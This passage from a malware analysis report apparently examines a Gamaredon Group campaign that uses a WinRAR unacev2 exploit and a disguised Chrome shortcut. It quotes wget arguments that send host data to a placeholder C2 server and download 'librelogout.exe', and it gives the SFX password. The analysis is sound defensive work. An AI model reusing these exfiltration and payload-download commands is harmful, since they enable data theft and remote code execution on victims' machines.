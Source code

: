 

“[C2 Server]”
-q -N “[C2 Server]”
-O “librelogout.exe”

In case the user is connected to the internet via proxy, it will provide additional arguments to config.exe:

-e
--http_proxy=http://[Proxy Server]
--proxy-user=[Proxy username]
--proxy-password=[Proxy password]

Among the arguments, we see one interesting parameter: versiya = wrar. First, the word Versiya is the Russian Версия or Ukranian Версія, and it means version. As it is set to wrar, we can guess that it refers to the way the payload is being delivered. In this case, the initial file mirotvorec.rar contains an exploit for the WinRAR unacev2 module. 






Figure 21. Data exfiltration and payload dropping code


After the config.exe returns, the script launches the main payload hosted on C2. To sum up the script routine, it takes the following actions:

Collects information about the infected host
Sends it to the C2 via config.exe
Downloads and launches the main payload

Analyzing the config.exe file, we found out that it is a legit wget version (v 1.11.4) with OpenSSL support compiled for Windows. The file is quite old, as the compilation date goes back to 2009. Apparently, the attackers decided to not reinvent the wheel and simply used an open-source solution for exfiltrating the host data and downloading the main payload.
Going Deep into the Shortcut
In addition to analyzing their techniques, we also decided to collect more information about the attackers. Fortunately, the shortcut they made will help us.
The shortcuts used in Windows are small files that simplify our lives by providing a fast way to access files, applications, and URLs. Another fact is that the .lnk shortcuts help simplify the forensic analysis of malicious campaigns by providing the amount of the information hidden from the user.
First, let’s check the “Goggle Chrome.lnk” by opening its properties:






Figure 22. Artifacts in the shortcut


First, we see that the shortcut contains a Russian string Доступ в Интернет in the comment field, which translates to Access to the Internet. This text is shown if one hovers the mouse over the shortcut. The real Google Chrome shortcut will contain this comment and the text will depend on system language settings. So, we can guess that Windows with the Russian language pack has been used for forming the malicious shortcut.
Another artifact left by the attackers is the password they used to unpack win.exe.
The -p is the argument for WinRAR SFX to use a password when unpacking. So the rest of the string – fvthbrfycrbte,k.lrb is the password. If you switch your keyboard layout to Russian and type the password characters, you eventually recover an obscene phrase in Russian: “американскиеу**юдки”, that is translated as “American b**tards”. Is this an Easter egg left by the Gamaredon Group?
Next, let’s move to the shortcut internals. Using the parsers of the .lnk structure, we can extract more information from the file. We decided to use LNK Parser, a tool that can generate very detailed html reports.

